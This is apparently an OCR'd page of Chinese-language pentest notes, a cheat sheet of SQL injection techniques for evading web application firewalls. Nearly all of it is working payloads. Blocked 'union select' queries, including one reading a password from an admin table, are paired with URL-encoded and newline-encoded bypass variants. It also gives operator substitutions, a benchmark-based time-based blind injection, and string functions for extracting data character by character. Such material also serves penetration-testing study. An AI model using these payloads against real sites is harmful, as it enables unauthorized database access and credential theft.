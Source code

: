```
❌ and false union select 1,2,......,31--
✔ and%0afalse%0aunion%0aselect%0a1,2,......,31--+

# URL 编码
❌ ?id=1 union select pass from admin limit 1
✔ 1%20union%20select%20pass%20from%20admin%20limit%201

❌ ?id=1 or 1
✔ ?id=1%27or%271           #字符型注入
✔ ?id=1%20or%201           #数字型注入
```

**函数替换**
- 连接
    ```sql
    and length(database())=7
    && length(database())=7
    %26%26 length(database())=7
    HAVING length(database())=7

    or 1=1
    || 1=1
    %7C%7C 1=1
    %7C%7C 1 LIKE 1
    ```

- benchmark 代替 sleep
    ```sql
    id=1 and if(ascii(substring((database()),1,1))=115,(select benchmark(1000000,md5(0x41))),1) --+
    ```

- 字符串截取函数
    ```sql
    Mid(version(),1,1)
    Substr(version(),1,1)
    Substring(version(),1,1)
    Lpad(version(),1,1)
    Rpad(version(),1,1)
    Left(version(),1)
    reverse(right(reverse(version()),1))
    ```

- 字符串连接函数
    ```sql
    concat(version(),'|',user());
    concat_ws('|',1,2,3)
    ```

- 字符转换/编码
    ```
    Char(49)
    Hex(‘a’)
    Unhex(61)
    Ascii(1)
    ```
